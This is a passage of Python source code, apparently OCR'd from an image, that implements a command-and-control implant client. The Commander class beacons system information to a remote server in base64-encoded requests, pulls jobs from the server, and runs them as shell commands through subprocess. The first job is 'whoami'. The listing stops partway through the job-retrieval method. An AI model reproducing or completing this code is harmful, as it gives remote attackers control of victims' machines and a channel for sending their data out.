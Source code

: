 ```bash
class Commander:
    def __init__(self, host, log_dir, port=81):
        self.log_dir = Path(log_dir)
        self.log_file = self.log_dir / f'{host}.log'
        self.port = port
        self.host = host

        try:
            self.log = json.loads(self.log_file.read_text())
        except FileNotFoundError:
            self.log = {'heartbeats': [], 'jobs': [{'job_id': 0, 'cmd': 'whoami'}]}
            self.save_log()

    def encode_message(self, message):
        return base64.b64encode(message.encode('utf-8')).decode('utf-8')

    def decode_message(self, message):
        return base64.b64decode(message).decode('utf-8')
    
    def save_log(self):
        self.log_file.write_text(json.dumps(self.log))

    def send_c2_message(self, endpoint, message):
        try:
            message = self.encode_message(json.dumps(message))
            r = requests.get(f'http://{self.host}:{self.port}/{endpoint}/{message}')

            return r.text
        except requests.exceptions.ConnectionError:
            raise ConnectionError('Could not connect to C2')

    def send_heartbeat(self):
        heartbeat = {
            'time': datetime.now().isoformat(),
            'systeminfo': systeminfo(),
            'latest_job': self.log['jobs'][-1] if len(self.log['jobs']) > 0 else None,
            'success': False
        }

        try:
            self.send_c2_message('heartbeat', heartbeat)

            heartbeat['success'] = True
            self.log['heartbeats'].append(heartbeat)
        except ConnectionError:
            self.log['heartbeats'].append(heartbeat)
            print('Could not send heartbeat')

    def execute_cmd(self, command):
        try:
            p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE)
            output, err = p.communicate()
            return output.decode('utf-8')
        except Exception as e:
            print(e)
            return False

    def get_job(self, job_id='latest'):
        try:
            job = self.send_c2_message('get-job', job_id)
            job = json.loads(self.decode_message(job))
            self.log['jobs'].append(job)

```